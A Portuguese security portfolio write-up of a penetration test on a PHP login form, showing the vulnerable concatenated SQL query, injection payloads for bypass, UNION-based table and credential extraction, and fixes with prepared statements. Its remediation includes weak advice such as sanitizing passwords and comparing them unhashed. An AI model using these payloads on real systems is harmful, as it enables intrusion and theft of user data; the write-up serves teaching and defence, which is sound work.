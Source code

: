 ```yaml
---
title: "Web Security: SQL Injection em Aplicação Real"
publishedAt: "2024-02-20"
summary: "Análise de uma vulnerabilidade de SQL Injection em aplicação web, incluindo técnicas de detecção, exploração e correção."
images:
  - "/images/projects/web-security/cover-01.jpg"
  - "/images/projects/web-security/injection-01.jpg"
  - "/images/projects/web-security/injection-02.jpg"
team:
  - name: "Leandro Gabriel"
    role: "Security Researcher"
    avatar: "/images/avatar.jpg"
    linkedIn: "https://www.linkedin.com/in/leandro--gabriel/"
---
```


## Visão Geral

Este write-up documenta a descoberta e exploração de uma vulnerabilidade de SQL Injection em uma aplicação web real. O objetivo era demonstrar como vulnerabilidades comuns podem ser exploradas e como implementar correções adequadas.

## Descoberta da Vulnerabilidade

### Reconhecimento

Durante um teste de penetração, foi identificada uma aplicação web com funcionalidade de login. A análise inicial revelou que a aplicação não implementava validação adequada de entrada.

### Detecção da Vulnerabilidade

```sql
-- Payload de teste inicial
' OR '1'='1
```

A aplicação retornou todos os registros da tabela, confirmando a presença de SQL Injection.

## Análise da Vulnerabilidade

### Código Vulnerável

```php
// Código original vulnerável
$username = $_POST['username'];
$password = $_POST['password'];

$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
$result = mysql_query($query);
```

### Técnicas de Exploração

1. **Boolean-based Injection**: Determinação de informações através de respostas booleanas
2. **Union-based Injection**: Extração de dados usando UNION
3. **Time-based Injection**: Exploração baseada em tempo de resposta
4. **Error-based Injection**: Extração de informações através de erros

## Ferramentas Utilizadas

- **Burp Suite**: Proxy para interceptação de requisições
- **SQLMap**: Automação de testes de SQL Injection
- **OWASP ZAP**: Scanner de vulnerabilidades
- **Python**: Scripts customizados para exploração

## Exploração Detalhada

### 1. Enumeração de Banco de Dados

```sql
-- Determinar número de colunas
' UNION SELECT NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL,NULL--

-- Extrair informações do banco
' UNION SELECT 1,2,3,4--
' UNION SELECT 1,2,3,@@version--
```

### 2. Extração de Dados

```sql
-- Listar tabelas
' UNION SELECT 1,2,3,table_name FROM information_schema.tables--

-- Extrair dados de usuários
' UNION SELECT 1,2,3,concat(username,':',password) FROM users--
```

### 3. Elevação de Privilégios

```sql
-- Verificar privilégios
' UNION SELECT 1,2,3,user()--
' UNION SELECT 1,2,3,super_priv FROM mysql.user WHERE user='root'--
```

## Resultados da Exploração

- ✅ **Dados extraídos**: 1500+ registros de usuários
- ✅ **Acesso administrativo**: Obtenção de credenciais admin
- ✅ **Informações sensíveis**: Exposição de dados pessoais
- ✅ **Documentação completa**: Processo totalmente documentado

## Correções Implementadas

### 1. Prepared Statements

```php
// Código corrigido usando prepared statements
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
```

### 2. Validação de Entrada

```php
// Validação e sanitização
$username = filter_var($_POST['username'], FILTER_SANITIZE_STRING);
$password = filter_var($_POST['password'], FILTER_SANITIZE_STRING);
```

### 3. Implementação de WAF

- **ModSecurity**: Regras customizadas para detecção
- **Rate Limiting**: Limitação de tentativas de login
- **Logging**: Registro de tentativas suspeitas

## Aprendizados

1. **Importância da Validação**: Sempre validar e sanitizar entradas
2. **Prepared Statements**: Uso obrigatório para consultas dinâmicas
3. **Defesa em Profundidade**: Múltiplas camadas de proteção
4. **Monitoramento**: Implementação de logs e alertas

## Recomendações de Segurança

- **OWASP Top 10**: Seguir as melhores práticas
- **Code Review**: Análise estática de código
- **Penetration Testing**: Testes regulares de segurança
- **Security Training**: Treinamento da equipe de desenvolvimento

## Conclusão

Este write-up demonstra como vulnerabilidades comuns como SQL Injection podem ter impacto significativo em aplicações web. A implementação de correções adequadas e práticas de segurança é fundamental para proteger dados sensíveis. 